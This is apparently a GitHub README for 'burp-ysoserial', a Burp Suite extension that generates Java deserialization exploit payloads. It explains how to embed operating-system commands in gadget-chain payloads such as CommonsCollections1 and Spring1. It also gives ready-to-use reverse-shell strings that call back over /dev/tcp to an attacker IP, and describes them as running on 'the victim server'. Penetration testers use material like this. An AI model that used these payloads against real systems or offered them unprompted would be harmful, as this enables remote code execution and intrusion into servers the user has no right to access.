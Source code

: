 # burp-ysoserial - with complex command in injection support


There are 3 ways to run this extension. 

 1. Generate a payload from the menu above. You can then copy and paste it into other tabs in burp.
 1. Generate a payload from the menu above. In another tab you can select the text you want to replace and right click. You have 3 options to replace.
   1. Raw - This will replace your selected text with an unencoded version of the payload. This is raw binary/hex.
   1. B64 - This payload will replace your selected text with a base64 encoded version.
   1. URLEnc - This will replace your selected text with a URL encoded and base64 encoded payload. Ideal for web type applications
 1. You can use inline commands to replace your text with a payload that contains your command. For example you can enter text in repeater like:
 
 ```$(CC1|ping -c1 8.8.8.8)```
 
 Select the above text and right click any of the Java Serialized Payload Options and it will replace your command with a payload containing that command.
 
 The first parameter before the pipe in the above statement is the verion of the exploit. You can enter any of the following:
  - CC1 or CollectionCommons1
  - CC2 or CollectionCommons2
  - GV1 or Groovy1
  - SP1 or Spring1
 The second parameter is obviously the OS command you wish to run.
 
## Complex Commands (i.e. pipes and I/O redirection)
Note ysoserial in this extension has been updated to accept more complicated commands that in the original. For instance commands the following command would fail to execute on the victim server:
 
```echo test > /tmp/text.txt```
  or
```bash -c "echo test > /tmp/text.txt"```
 
This is because to run complex commands that pipe command into other commands in java the arguments needs to be a string Array. This version of ysoserial has been modifiedby using a delimter of ",,". to seperate your arguments to the string array.  Here is an example of running a more complicated command using this method to get a reverse shell: 
  
 ```/bin/bash,,-c,,bash -i >& /dev/tcp/X.X.X.X/9997 0>&1```
 
The above code will be split into a string array that java can run on the victim server. :) The resulting java code would look like:
```Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/X.X.X.X/9997 0>&1"});```

##Examples
### Example 1 - Replace selected text with a pre-generated payload
1. First Generate a payload
![Payload Generator](/Payload%20Generator.png)
2. Go to Repeater and select the text you want to replace.
3. Right Click and select a payload option.
![Payload Generator](/replace%20with%20generated.png)

### Example 2 - Use and inline command
1. In Burp Repeater replace your parameter with the following code:
 ```$(CC1|ping -c1 8.8.8.8)```
2. Select the above text. Right Click in repeater and select the payload type.
![Payload Generator](/inline-command.png)

### Example 3 - Complex commands 
1. In Repeater replace your parameter with the following command:
```$(CC1|/bin/bash,,-c,,bash -i >& /dev/tcp/192.168.1.223/9997 0>&1)```
2. Select it and select the payload you want to generate.
![Payload Generator](/inline%20complex%20command.png)
